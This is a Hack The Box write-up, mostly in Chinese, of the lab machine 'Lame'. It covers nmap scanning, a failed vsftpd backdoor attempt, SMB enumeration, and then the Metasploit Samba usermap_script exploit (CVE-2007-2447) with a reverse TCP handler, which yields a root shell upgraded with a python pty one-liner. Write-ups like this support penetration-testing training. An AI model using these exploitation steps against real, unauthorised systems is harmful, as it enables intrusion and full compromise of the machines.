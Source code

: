 ```yaml
---
title: HTB-Easy Lame Write UP
date: 2025-06-08 16:21:00 +0800
last_modified_at: 2025-06-08 16:21:00 +0800
categories: [HTB]
tags: [HTB]
math: true
mermaid: true
---
```




# Nmap扫描

    ┌──(root?kali)-[/home/kali]
    └─# nmap  -sC -sV 10.10.10.3 -p- --min-rate 4000
    Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-08 03:10 EDT
    Nmap scan report for 10.10.10.3 (10.10.10.3)
    Host is up (0.42s latency).
    Not shown: 65530 filtered tcp ports (no-response)
    PORT     STATE SERVICE     VERSION
    21/tcp   open  ftp         vsftpd 2.3.4
    |_ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to 10.10.16.9
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      vsFTPd 2.3.4 - secure, fast, stable
    |_End of status
    22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
    | ssh-hostkey: 
    |   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
    |_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
    3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
    Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

# There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?

## 笑脸漏洞(VSFTPD2.3.4)

**尝试失败**

    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
    [*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 10.10.10.3:21 - USER: 331 Please specify the password.
    [*] Exploit completed, but no session was created.

## SMB

    ┌──(root㉿kali)-[/home/kali]
    └─# smbmap -H 10.10.10.3
    [*] Detected 1 hosts serving SMB                                                                                                  
    [*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                                
    [+] IP: 10.10.10.3:445	Name: 10.10.10.3          	Status: Authenticated
        Disk                                                  	Permissions	Comment
        ----                                                  	-----------	-------
        print$                                            	NO ACCESS	Printer Drivers
        tmp                                               	READ, WRITE	oh noes!
        opt                                               	NO ACCESS	
        IPC$                                              	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                            	NO ACCESS	IPC Service (lame server (Samba 3.0.20-Debian))
    [*] Closed 1 connections                                                                                                     
连接上去看看:`smbclient -N //10.10.10.3/tmp`

    smb: \> dir
    .                                   D        0  Sun Jun  8 03:46:24 2025
    ..                                 DR        0  Sat Oct 31 02:33:58 2020
    .ICE-unix                          DH        0  Sat Jun  7 18:46:44 2025
    vmware-root                        DR        0  Sat Jun  7 18:47:55 2025
    5542.jsvc_up                        R        0  Sat Jun  7 18:47:44 2025
    .X11-unix                          DH        0  Sat Jun  7 18:47:10 2025
    .X0-lock                           HR       11  Sat Jun  7 18:47:10 2025
    vgauthsvclog.txt.0                  R     1600  Sat Jun  7 18:46:41 2025

没有可利用文件



## Samba RCE CVE-2007-2447

***searchsploit搜索可利用漏洞***

    ┌──(kali㉿kali)-[~]
    └─$ searchsploit 'samba 3.0.20'
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Exploit Title                                                                                                   |  Path
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                           | multiple/remote/10095.txt
    Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                 | unix/remote/16320.rb
    Samba < 3.0.20 - Remote Heap Overflow                                                                            | linux/remote/7701.txt
    Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                    | linux_x86/dos/36741.py
    ----------------------------------------------------------------------------------------------------------------- ---------------------------------
    Shellcodes: No Results

发现第二个可以在MSF中利用

    msf6 > search samba 3.0.2

    Matching Modules
    ================

    #   Name                                                   Disclosure Date  Rank       Check  Description
    -   ----                                                   ---------------  ----       -----  -----------
    0   exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
    1   exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
    2     \_ target: Linux vsyscall                            .                .          .      .
    3     \_ target: Linux Heap Brute Force (Debian/Ubuntu)    .                .          .      .
    4     \_ target: Linux Heap Brute Force (Gentoo)           .                .          .      .
    5     \_ target: Linux Heap Brute Force (Mandriva)         .                .          .      .
    6     \_ target: Linux Heap Brute Force (RHEL/CentOS)      .                .          .      .
    7     \_ target: Linux Heap Brute Force (SUSE)             .                .          .      .
    8     \_ target: Linux Heap Brute Force (Slackware)        .                .          .      .
    9     \_ target: Linux Heap Brute Force (OpenWRT MIPS)     .                .          .      .
    10    \_ target: DEBUG                                     .                .          .      .
    11  exploit/solaris/samba/lsa_transnames_heap              2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
    12    \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24    .                .          .      .
    13    \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24  .                .          .      .
    14    \_ target: DEBUG                                     .                .          .      .
    
    
    msf6 > use 0

    msf6 exploit(multi/samba/usermap_script) > show options

    Module options (exploit/multi/samba/usermap_script):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    CHOST                     no        The local client address
    CPORT                     no        The local client port
    Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
    RPORT    139              yes       The target port (TCP)

    msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3

***注意将本地监听端口该为openvpn的ip***
    
    msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.16.9
    msf6 exploit(multi/samba/usermap_script) > run
    [*] Started reverse TCP handler on 10.10.16.9:4444 
    [*] Command shell session 1 opened (10.10.16.9:4444 -> 10.10.10.3:41153) at 2025-06-08 04:02:47 -0400

    whoami
    root


获取一个新的bash shell:`python -c 'import pty; pty.spawn("/bin/bash")'`

最后分别获取makis和root的home目录下的flag